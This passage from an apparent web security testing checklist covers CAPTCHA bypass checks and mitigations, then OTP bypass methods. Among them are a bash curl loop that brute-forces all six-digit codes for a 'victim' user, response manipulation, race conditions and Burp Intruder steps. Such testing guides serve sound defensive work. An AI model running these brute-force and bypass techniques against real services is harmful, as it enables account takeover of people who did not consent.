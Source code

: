 **Expected Output**: CAPTCHA should be mandatory, one-time use, and server-validated.

**Vulnerability Confirmation**:
```
Bypass successful if:
- Same CAPTCHA token works multiple times
- Request succeeds without CAPTCHA
- Client-side only validation
- CAPTCHA not linked to session
```

**Generic Mitigation**:
- Implement server-side CAPTCHA validation
- Use reputable CAPTCHA services (reCAPTCHA v3)
- One-time use CAPTCHA tokens
- Link CAPTCHA to user session
- Implement rate limiting before CAPTCHA
- Consider invisible CAPTCHA

---

### 16. Bypassing OTP

**Issue Description**: One-Time Password implementations may have flaws allowing bypass or brute force.

**Execution Steps**:
```bash
# Test OTP bypass methods:

# 1. Brute force OTP (if rate limiting missing)
for i in {000000..999999}; do
    curl -X POST https://api.example.com/verify-otp \
         -d "otp=$i&user=victim"
done

# 2. OTP reuse
Use the same OTP multiple times

# 3. Response manipulation
Change {"success": false} to {"success": true}

# 4. Race condition
Send multiple simultaneous requests

# 5. Session fixation
Use OTP sent to attacker's number

# 6. Check OTP in response/email
Sometimes OTP is leaked in responses

# Using Burp Suite Intruder
1. Capture OTP verification request
2. Set payload position on OTP field
3. Payload: Numbers 000000-999999
4. Check for rate limiting
```
